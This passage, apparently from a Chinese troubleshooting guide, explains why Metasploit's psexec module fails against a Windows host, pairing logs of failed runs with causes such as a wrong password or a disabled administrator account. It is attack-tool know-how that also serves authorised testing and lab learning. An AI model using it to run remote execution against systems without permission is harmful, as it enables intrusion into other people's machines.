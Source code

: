 报错原因：目标主机管理员账户或密码不正确。

```
msf5 exploit(windows/smb/psexec) > exploit 

\[\*\] Started reverse TCP handler on 192.168.1.120:4444 
\[\*\] 192.168.1.108:445 - Connecting to the server...
\[\*\] 192.168.1.108:445 - Authenticating to 192.168.1.108:445| as user 'administrator'...
\[-\] 192.168.1.108:445 - Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS\_USER\_SESSION\_DELETED
```

RubySMB::Error::UnexpectedStatusCode STATUS\_USER\_SESSION\_DELETED

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445|WORKGROUP as user '90sec'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_NETLOGON\_NOT\_STARTED (Command=115 WordCount=0)
```

### (7) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_NETLOGON\_NOT\_STARTED

报错原因：Netlogon 或 Workstation 服务已禁用。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_ACCOUNT\_DISABLED (Command=115 WordCount=0)
```

### (8) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_ACCOUNT\_DISABLED

报错原因：目标主机上的 administrator 管理员账户被禁用。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:443 
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_PASSWORD\_MUST\_CHANGE (Command=115 WordCount=0)
```
